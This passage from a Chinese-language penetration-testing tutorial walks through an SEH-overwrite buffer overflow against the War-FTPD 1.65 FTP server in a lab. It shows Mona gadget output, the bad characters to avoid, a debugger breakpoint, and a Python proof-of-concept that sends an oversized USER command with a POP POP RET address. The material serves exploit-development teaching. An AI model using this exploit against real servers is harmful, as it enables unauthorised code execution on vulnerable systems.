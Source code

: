 `!mona seh` 的结果会写入 *C:\logs\war-ftpd\seh.txt*，部分内容如图所示。

```
0x5f401440 : pop edi # pop ebx # ret 0x04 | asciiprint,ascii {PAGE_EXECUTE_
READ} [MFC42.DLL] ASLR: False, Rebase: False, SafeSEH: False, OS: False,
v4.2.6256 (C:\Documents and Settings\georgia\Desktop\MFC42.DLL)
0x5f4021bf : pop ebx # pop ebp # ret 0x04 |  {PAGE_EXECUTE_READ} [MFC42.DLL]
ASLR: False, Rebase: False, SafeSEH: False, OS: False, v4.2.6256 (C:\Documents
and Settings\georgia\Desktop\MFC42.DLL)
0x5f4580ca : pop ebx # pop ebp # ret 0x04 |  {PAGE_EXECUTE_READ} [MFC42.DLL]
ASLR: False, Rebase: False, SafeSEH: False, OS: False, v4.2.6256 (C:\Documents
and Settings\georgia\Desktop\MFC42.DLL)
0x004012f2 : pop edi # pop esi # ret 0x04 | startnull {PAGE_EXECUTE_READ}
[war-ftpd.exe] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v1.6.5.0
(C:\Documents and Settings\georgia\Desktop\war-ftpd.exe)
```

从输出中可以看到，唯一没有 SafeSEH 的模块是 War-FTP 可执行文件本身和一个名为 *MFC42.dll* 的 War-FTP 附带 DLL。我们需要从 Mona 的输出中选择一个 `POP POP RET`（或其逻辑等效）实例，该实例避免了 第十七章中讨论的四个坏字符（\x00, \x40, \x0a, \x0d）。(要让 Mona 在搜索过程中自动排除包含坏字符的条目，可以输入 **`!mona seh -cpb "\x00\x40\x0a\x0d"`**。一个这样的地址是 `5F4580CA`。指令为 `POP` `EBX`，`POP EBP`，`RET`。再次强调，我们不在乎这些指令存储在哪里，只要我们能从栈上弹出两个条目。如果我们用地址 `5F4580CA` 覆盖 SEH，这些指令就会被执行，我们的执行流将被重定向到攻击字符串。

在继续之前，按照图 18-15 所示，在 `5F4580CA` 处设置断点，命令为 `bp 0x5F4580CA`。

![POP POP RET 处的断点](img/httpatomoreillycomsourcenostarchimages2030568.png.jpg)图 18-15. POP POP RET 处的断点

将之前 exploit 中的四个 *C* 替换为 `POP POP RET` 内存地址的小端格式，正如在示例 18-4 中所示。

示例 18-4. 使用 `POP POP RET` 替换 SEH 覆盖

```
#!/usr/bin/python
import socket
buffer = "A" * 569 + "B" * 4 + "\xCA\x80\x45\x5F" + "D" * 573
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
connect=s.connect(('192.168.20.10',21))
response = s.recv(1024)
print response
s.send('USER ' + buffer  + '\r\n')
response = s.recv(1024)
print response
s.close()
```

